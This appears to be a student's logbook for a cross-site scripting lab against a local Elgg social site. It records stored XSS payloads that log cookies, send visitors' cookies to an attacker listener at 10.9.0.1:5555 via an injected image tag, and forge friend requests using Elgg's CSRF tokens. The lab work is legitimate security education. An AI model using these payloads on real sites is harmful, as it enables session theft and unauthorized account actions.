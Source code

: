 # Log Book 10

## Environment Setup

We successfuly changed the hosts file and ran the server using the
`docker-compose` commands.

## Task 1

For this task we want to inject a script into our profile. We achieved this by
posting the following script into our description:

```html
<script>
  console.log("hello");
</script>
```

We will be using `console.log` instead of `alert` to display the required
information because our firefox version blocks all pop-up windows.  
When any user visits our profile, the following message is displayed.

![Task1_Result](LOGBOOK10_img/task1.png)

## Task 2

By changing the description to the following script, we can see the user's
cookies.

```
<script>console.log(document.cookie);</script>
```

As can be seen in the picture bellow

![Task2_Result](LOGBOOK10_img/task2.png)

## Task 3

In this task we want to be able to send the user's cookies to a server that
belongs to us, the attacker. In the script bellow, we imbed the cookies that we
want to send in a request that will be made to the attacker's machine

```
<script>
document.write("<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >");
</script>
```

We use the netcat command line tool to listen for any requests made from users
that visited our profile. These requests contain the user's cookies, as can be
seen bellow:

![Task3_Result](LOGBOOK10_img/task3.png)

## Task 4

The objective of this task is to write a worm that adds Samy to a user's friend
list when that user visits Samy's profile.

We can add Samy as a friend normally, and with the extension _HTTP Header Live_,
we can find how a friend HTTP request is encoded:

![Task4_Request](LOGBOOK10_img/task4_request.png)

Using this information, we can create a script that, when executed, forges a
request that adds Samy as a friend to the logged in user.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```

Similar to the previous tasks, we place this script in our description so that
it will be executed by a user when he enters our profile.

### Example

1. We are logged in as Alice, as can be seen we only have Charlie as our friend.

![Task4_AliceProfile](LOGBOOK10_img/task4_alice_profile.png)

2. When we visit Samy's profile, our script sends a forged friend request.

![Task4_Request](LOGBOOK10_img/task4_request.png)

- We can see that the script was successful, as now we can remove him Samy as a
  friend.

![Task4_SamyProfile](LOGBOOK10_img/task4_samy_profile.png)

3. When we visit our profile, we can see that we Samy is now our friend.

![Task4_SamyProfileAfterFriend](LOGBOOK10_img/task4_alice_profile_after_friend.png)

### Question 1

The referenced lines serve to send the elgg token in our forged request so that
the server evaluates the request as a valid request from the user.

### Question 2

A successful attack can't be launched since the Editor mode filters HTML special
characters and we can't edit the inner HTML content of the field. Thus,
injecting any script into the _About Me_ field is not possible, as we can't
submit the `<script>` tag into profile.
